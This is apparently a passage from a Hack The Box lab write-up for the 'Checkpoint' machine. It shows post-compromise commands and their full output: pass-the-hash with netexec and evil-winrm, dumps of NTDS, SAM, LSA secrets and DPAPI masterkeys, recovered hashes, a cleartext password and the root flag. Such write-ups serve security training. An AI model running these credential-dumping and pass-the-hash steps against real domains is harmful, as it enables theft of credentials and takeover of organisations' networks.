┌──(kali㉿kali)-[/mnt/…/HTB/Machines/Checkpoint/files]
└─$ netexec smb 10.129.21.94 -u 'Administrator' -H f29e9c014295b9b32139b09a2790be3b --ntds 
SMB         10.129.21.94    445    DC01             [*] Windows 11 / Server 2025 Build 26100 x64 (name:DC01) (domain:checkpoint.htb) (signing:True) (SMBv1:None)
SMB         10.129.21.94    445    DC01             [+] checkpoint.htb\Administrator:f29e9c014295b9b32139b09a2790be3b (Pwn3d!)
SMB         10.129.21.94    445    DC01             [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         10.129.21.94    445    DC01             Administrator:500:aad3b435b51404eeaad3b435b51404ee:f29e9c014295b9b32139b09a2790be3b:::
SMB         10.129.21.94    445    DC01             Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.21.94    445    DC01             krbtgt:502:aad3b435b51404eeaad3b435b51404ee:015e3bf70a412ef82b604fae3b1c30e8:::
SMB         10.129.21.94    445    DC01             checkpoint.htb\alex.turner:1101:aad3b435b51404eeaad3b435b51404ee:0b28e49d9deb96f99d74578e214faec2:::
SMB         10.129.21.94    445    DC01             checkpoint.htb\mark.davies:1102:aad3b435b51404eeaad3b435b51404ee:0b28e49d9deb96f99d74578e214faec2:::
SMB         10.129.21.94    445    DC01             checkpoint.htb\ryan.brooks:1103:aad3b435b51404eeaad3b435b51404ee:82d044eb259e495fd92a52b2ccece067:::
SMB         10.129.21.94    445    DC01             checkpoint.htb\svc_deploy:1104:aad3b435b51404eeaad3b435b51404ee:e16081eb077aca74bdbf8af12af43ac9:::
SMB         10.129.21.94    445    DC01             checkpoint.htb\james.harper:1111:aad3b435b51404eeaad3b435b51404ee:72f0eefcc213ea8f350773b831cf2c9c:::
SMB         10.129.21.94    445    DC01             checkpoint.htb\sarah.mitchell:1112:aad3b435b51404eeaad3b435b51404ee:72f0eefcc213ea8f350773b831cf2c9c:::
SMB         10.129.21.94    445    DC01             checkpoint.htb\emily.carter:1113:aad3b435b51404eeaad3b435b51404ee:72f0eefcc213ea8f350773b831cf2c9c:::
SMB         10.129.21.94    445    DC01             checkpoint.htb\david.reynolds:1114:aad3b435b51404eeaad3b435b51404ee:72f0eefcc213ea8f350773b831cf2c9c:::
SMB         10.129.21.94    445    DC01             checkpoint.htb\jessica.coleman:1115:aad3b435b51404eeaad3b435b51404ee:72f0eefcc213ea8f350773b831cf2c9c:::
SMB         10.129.21.94    445    DC01             checkpoint.htb\lauren.flores:1116:aad3b435b51404eeaad3b435b51404ee:72f0eefcc213ea8f350773b831cf2c9c:::
SMB         10.129.21.94    445    DC01             checkpoint.htb\michael.torres:1117:aad3b435b51404eeaad3b435b51404ee:72f0eefcc213ea8f350773b831cf2c9c:::
SMB         10.129.21.94    445    DC01             checkpoint.htb\kevin.patterson:1118:aad3b435b51404eeaad3b435b51404ee:72f0eefcc213ea8f350773b831cf2c9c:::
SMB         10.129.21.94    445    DC01             checkpoint.htb\brian.jenkins:1119:aad3b435b51404eeaad3b435b51404ee:72f0eefcc213ea8f350773b831cf2c9c:::
SMB         10.129.21.94    445    DC01             checkpoint.htb\megan.perry:1120:aad3b435b51404eeaad3b435b51404ee:72f0eefcc213ea8f350773b831cf2c9c:::
SMB         10.129.21.94    445    DC01             max.palmer:5101:aad3b435b51404eeaad3b435b51404ee:7d7670c154bf5439523729639c6d2f16:::
SMB         10.129.21.94    445    DC01             DC01$:1000:aad3b435b51404eeaad3b435b51404ee:cacfde2465d05d06d1d148b87643770a:::
SMB         10.129.21.94    445    DC01             foobar$:7102:aad3b435b51404eeaad3b435b51404ee:bf4c35975da69efac5f81714cc9b4f08:::
SMB         10.129.21.94    445    DC01             [+] Dumped 20 NTDS hashes to /home/kali/.nxc/logs/ntds/DC01_10.129.21.94_2026-06-14_164349.ntds of which 17 were added to the database
SMB         10.129.21.94    445    DC01             [*] To extract only enabled accounts from the output file, run the following command: 
SMB         10.129.21.94    445    DC01             [*] grep -iv disabled /home/kali/.nxc/logs/ntds/DC01_10.129.21.94_2026-06-14_164349.ntds | cut -d ':' -f1
```

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/Checkpoint/files]
└─$ evil-winrm -i DC01.checkpoint.htb -u 'Administrator' -H f29e9c014295b9b32139b09a2790be3b
                                        
Evil-WinRM shell v3.9
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

## root.txt

```shell
*Evil-WinRM* PS C:\Users\max.palmer\Desktop> type root.txt
1aa06911292f9a6b801e7b4c13b6202a
```

## Post Exploitation

With full domain administrative access, a comprehensive credential dump was performed including `SAM` hashes, `LSA` secrets and `DPAPI` masterkeys. The `LSA` secrets dump recovered the cleartext password for `ryan.brooks` stored as a cached service credential.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/Checkpoint/files]
└─$ netexec smb 10.129.21.94 -u 'Administrator' -H f29e9c014295b9b32139b09a2790be3b --sam --lsa --dpapi 
SMB         10.129.21.94    445    DC01             [*] Windows 11 / Server 2025 Build 26100 x64 (name:DC01) (domain:checkpoint.htb) (signing:True) (SMBv1:None)
SMB         10.129.21.94    445    DC01             [+] checkpoint.htb\Administrator:f29e9c014295b9b32139b09a2790be3b (Pwn3d!)
SMB         10.129.21.94    445    DC01             [*] Dumping SAM hashes
SMB         10.129.21.94    445    DC01             Administrator:500:aad3b435b51404eeaad3b435b51404ee:68ae965c9062b389f2a285e27ff0a566:::
SMB         10.129.21.94    445    DC01             Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.21.94    445    DC01             DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[16:47:18] ERROR    SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.                                                                                                                                                                                                                                                                                                 regsecrets.py:436
SMB         10.129.21.94    445    DC01             [+] Added 3 SAM hashes to the database
SMB         10.129.21.94    445    DC01             [*] Dumping LSA secrets
SMB         10.129.21.94    445    DC01             CHECKPOINT\DC01$:aes256-cts-hmac-sha1-96:5f02d39019f4d07672040f0059ddab05a956b1c174e802013562690fec0f080b
SMB         10.129.21.94    445    DC01             CHECKPOINT\DC01$:aes128-cts-hmac-sha1-96:d26e51016d3086e4e67097017863a79c
SMB         10.129.21.94    445    DC01             CHECKPOINT\DC01$:des-cbc-md5:6dd364b57f58a43e
SMB         10.129.21.94    445    DC01             CHECKPOINT\DC01$:plain_password_hex:e294eb9b4c05e1ba6dd2ca6fb87b0ff9f45fcf1e7c35ca1244c04ac47cc7d9d5cd72d92ef7c6c6d83bc9922111b103f714a07c6901589d9a101336dfc325b6438fe1fca76bf5e4e493f4d4184ca33432bf40be772f60a54f1f31e9cfa40e2bdae004769a33c161dc1c46a052162203e3fccd835560aa2bb811a5c51257e2bcbd76a0c33d978fe23eca3998d680e6abbbb50f186f8d850a2a8348a7a0cfa06c6ebe8a637ad64e2da14c662b9241cc0852bffe974d6f251f1ad5b5bd078a7e695f97afb8432fead2f49320a228517b0186cd2d400ef9998ac91bbfdb942b7a49b2e968f84443dccfbbedf93f1fbbef161331ca2a23cd390eb79203ea951f814601a15a89745e71c3a8b26c88e46d6278b8baac5b1f6e12ee0dea324ea347b62f2c033a08af9068a1f90fa47f5a238df826783b8ae6acea08a873fb3da13aa6c1cc76a9c7daf903803a7f19dfc5a44869ffbdaa49a1388999395a0783dcd628eed29c7c54e65134c2a2be71c5b32bdc2954d2d7f0d8637261ba5534b65a4cba11e0e2719f4664afbe6ec0bb820c0b65154da29d92d064a3c1bf392d3ddff4f451cc005af98155912a6a4ad787c353d9a0f3498f065cdf359b9872e47ca1d4916540bfb5416fc2956bcca1d053033da6b1a959b69829c68745a6206a067d10642cfbb124d380b8932315107e8e37757d59ae26b9e2e9f2d7d9a5be417cf0ceb300ce                                                                                                                                                                      
SMB         10.129.21.94    445    DC01             CHECKPOINT\DC01$:aad3b435b51404eeaad3b435b51404ee:cacfde2465d05d06d1d148b87643770a:::
SMB         10.129.21.94    445    DC01             CHECKPOINT\ryan.brooks:JOCXfSk7Y$mvjLou
SMB         10.129.21.94    445    DC01             dpapi_machinekey:0xdd7a32782a6175d4f207ae61fe619e37b4e5edcd
dpapi_userkey:0xb8921a25a0d758a50c6ecf080b22d6d378ec7f38
SMB         10.129.21.94    445    DC01             [+] Dumped 7 LSA secrets to /home/kali/.nxc/logs/lsa/DC01_10.129.21.94_2026-06-14_164715.secrets and /home/kali/.nxc/logs/lsa/DC01_10.129.21.94_2026-06-14_164715.cached
SMB         10.129.21.94    445    DC01             [+] User is Domain Administrator, exporting domain backupkey...
SMB         10.129.21.94    445    DC01             [*] Collecting DPAPI masterkeys, grab a coffee and be patient...
SMB         10.129.21.94    445    DC01             [+] Got 7 decrypted masterkeys. Looting secrets...
```